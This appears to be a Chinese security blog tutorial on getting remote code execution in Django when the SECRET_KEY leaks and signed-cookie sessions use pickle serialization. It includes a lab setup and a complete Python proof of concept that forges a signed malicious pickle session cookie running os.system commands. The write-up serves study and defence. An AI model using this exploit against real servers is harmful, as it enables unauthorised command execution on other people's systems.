


Title:django的secret key泄漏导致的命令执行实践
Date: 2018-02-01 10:20
Category: python安全
Tags: 反序列化,django,pickle,secret key,python
Slug: 
Authors: bit4
Summary: 

### 0x0、secret key的用途和泄漏导致的攻击面

secret key主要用于加密、签名，下面是[官方文档](https://docs.djangoproject.com/en/2.0/ref/settings/#secret-key)的说明：

The secret key is used for:

- All [sessions](https://docs.djangoproject.com/en/2.0/topics/http/sessions/) if you are using any other session backend than `django.contrib.sessions.backends.cache`, or are using the default[`get_session_auth_hash()`](https://docs.djangoproject.com/en/2.0/topics/auth/customizing/#django.contrib.auth.models.AbstractBaseUser.get_session_auth_hash).
- All [messages](https://docs.djangoproject.com/en/2.0/ref/contrib/messages/) if you are using [`CookieStorage`](https://docs.djangoproject.com/en/2.0/ref/contrib/messages/#django.contrib.messages.storage.cookie.CookieStorage) or [`FallbackStorage`](https://docs.djangoproject.com/en/2.0/ref/contrib/messages/#django.contrib.messages.storage.fallback.FallbackStorage).
- All [`PasswordResetView`](https://docs.djangoproject.com/en/2.0/topics/auth/default/#django.contrib.auth.views.PasswordResetView) tokens.
- Any usage of [cryptographic signing](https://docs.djangoproject.com/en/2.0/topics/signing/), unless a different key is provided.

secret key泄漏可能的攻击面：

- 远程代码执行，如果使用了cookie-based sessions。当然其他可以操作session_data的问题都可能导致
- 任意密码重置， contrib.auth.token.
- CSRF
- .......

我们主要关注远程代码执行这个点。

### 0x1、django session的几种方式

1. 数据库(database-backed sessions)，

比如下图，session的key和data都是存储在sqlite数据库中的，这是默认的设置，当用户带着cookie来请求服务端时，cookie中包含的是session_key，服务端会根据这个session_key来查询数据库，从而获取到session_data。即是说，session_data是存在服务端的。



2. [缓存（cached sessions）](https://docs.djangoproject.com/en/dev/topics/cache/)
3. 文件系统（file-based sessions）
4. cookie(cookie-based sessions)

当django使用了这种方式的时候，和其它几种方式不同的是，它将session_data也是存在于cookie中的，即存在于客户端的。但它是经过签名的，签名依赖于django 的secret key，所以如果我们知道了secret key将可能修改session_data。这也是我们将要讨论的重点。


### 0x2、环境准备


 关于通过操作session来实现命令执行有一个很好的[案例](https://www.leavesongs.com/PENETRATION/zhangyue-python-web-code-execute.html)。在学习pickle反序列化的时候就看过，其中的关键是django在取得session_data之后，需要进行反序列化操作才能获取其中的数据。所以，如果能有机会操作session_data，就有可能构造出代码执行。

而我们这里关注的是secret key泄漏的情况，它有2个关键点：

1. 使用了cookie-based sessions
2. 使用了serializers.PickleSerializer（ django1.5级以下，session默认是采用pickle执行序列号操作`django.contrib.sessions.serializers.PickleSerializer`；在1.6 及以上版本默认采用json序列化。`django.contrib.sessions.serializers.JSONSerializer`）


djgano测试环境部署：

```python
#命令行下运行如下命令来创建项目
django-admin startproject testproject

#在项目中创建应用
cd testproject
python manage.py startapp testapp

#在setting.py中新增SESSION_ENGINE和SESSION_SERIALIZER配置。这是漏洞存在的必要条件！
SESSION_ENGINE = 'django.contrib.sessions.backends.signed_cookies'
#SESSION_SERIALIZER = 'django.contrib.sessions.serializers.JSONSerializer'
SESSION_SERIALIZER = 'django.contrib.sessions.serializers.PickleSerializer'
#因为我的环境中使用的django1.11，默认使用的是JSONSerializer，所以需要配置这一条。
```

urls.py的内容如下：

```python
from django.conf.urls import url
from django.contrib import admin
from testapp import views

urlpatterns = [
    url(r'.*$', views.index),
    url(r'^admin/', admin.site.urls),
]
```

views.py中的内容如下：

```python
# -*- coding: utf-8 -*-
from __future__ import unicode_literals

from django.shortcuts import render
from django.http import HttpResponse

# Create your views here.
def index(request):
    x= request.session
    print x.values
    print dir(x)
    print x.serializer
    print x['userid'] #这一句是关键，需要有尝试从session中取数据的行为，django才会去执行反序列
    return HttpResponse(x)
  
```

注意：必须要有尝试从session中取数据的行为，django才会去执行反序列，否则将不能触发！所以实际的环境中，最好选择用户信息相关接口等一定会取数据的接口进行测试。

以上就完成了环境的准备，运行`python manage.py runserver` 启动服务。


### 0x3、PoC及验证

关于pickle poc的生成方法，可以参考我之前的文章 [Python Pickle的任意代码执行漏洞实践和Payload构造](http://www.code2sec.com/python-picklede-ren-yi-dai-ma-zhi-xing-lou-dong-shi-jian-he-payloadgou-zao.html)

poc.py的内容如下：

```python
# !/usr/bin/env python
# -*- coding:utf-8 -*-
__author__ = 'bit4'
__github__ = 'https://github.com/bit4woo'

import os
import requests
from django.contrib.sessions.serializers import PickleSerializer
from django.core import signing
import pickle

def session_gen(SECRET_KEY,command = 'ping -n 3 test.0y0.link || ping -c test.0y0.link',):
    class Run(object):
        def __reduce__(self):
            #return (os.system,('ping test.0y0.link',))
            return (os.system,(command,))

    #SECRET_KEY = '1bb8)i&dl9c5=npkp248gl&aji7^x6izh3!itsmb6&yl!fak&f'
    SECRET_KEY = SECRET_KEY

    sess = signing.dumps(Run(), key = SECRET_KEY,serializer=PickleSerializer,salt='django.contrib.sessions.backends.signed_cookies')
    #生成的恶意session
    print sess


    '''
    salt='django.contrib.sessions.backends.signed_cookies'
    sess = pickle.dumps(Run())
    sess = signing.b64_encode(sess)#通过跟踪signing.dumps函数可以知道pickle.dumps后的数据还经过了如下处理。
    sess = signing.TimestampSigner(key=SECRET_KEY, salt=salt).sign(sess)
    print sess
    #这里生成的session也是可以成功利用的，这样写只是为了理解signing.dumps。
    '''

    session = 'sessionid={0}'.format(sess)
    return session

def exp(url,SECRET_KEY,command):

    headers = {'Cookie':session_gen(SECRET_KEY,command)}
    proxy = {"http":"http://127.0.0.1:8080"}#设置为burp的代理方便观察请求包
    response = requests.get(url,headers= headers,proxies = proxy)
    #print response.content

if __name__ == '__main__':
    url = 'http://127.0.0.1:8000/'
    SECRET_KEY = '1bb8)i&dl9c5=npkp248gl&aji7^x6izh3!itsmb6&yl!fak&f'
    command = 'ping -n 3 test.0y0.link || ping -c test.0y0.link'
    exp(url,SECRET_KEY,command)
```

运行poc.py时，后台的输出结果：



print x['userid']对应了2个动作，一是反序列化，也就是执行系统命令的关键；二是取值，这里是取值失败打印了错误信息，但是这已经不重要了，因为我们已经实现了我们的目的。

poc脚本最好使用原生的库或者方法来进行其中的payload生成操作。比如上面的poc.py中，可以使用signing.dumps，也可单独使用pickle.dumps然后加上其他操作，但是最好使用第一种，这样可以很好地保证payload的正确性。而且实际的环境中，如果能获取到目标的具体版本，最好通过配置相应版本的环境来完成poc的生成。

本文环境和代码的下载地址：

[https://github.com/bit4woo/code2sec.com/tree/master/code/testproject](https://github.com/bit4woo/code2sec.com/tree/master/code/testproject)

**参考：**

https://www.mxsasha.eu/blog/2013/04/26/proof-of-concept-arbitrary-remote-code-execution-pickle-sessions/  flask的payload生成器

https://www.leavesongs.com/PENETRATION/zhangyue-python-web-code-execute.html 

https://github.com/danghvu/pwp flask等其他python web框架中的相似问题

https://www.kevinlondon.com/2015/10/16/answers-to-django-security-questions.html

http://www.oschina.net/translate/python-web-framework-from-lfr-to-rce?print

https://systemoverlord.com/2014/04/14/plaidctf-2014-reekeeeee/

https://labs.detectify.com/2015/10/02/how-patreon-got-hacked-publicly-exposed-werkzeug-debugger/

https://docs.djangoproject.com/en/1.11/topics/http/sessions/

http://xxlegend.com/2015/04/01/%E4%BB%8EDjango%E7%9A%84SECTET_KEY%E5%88%B0%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C/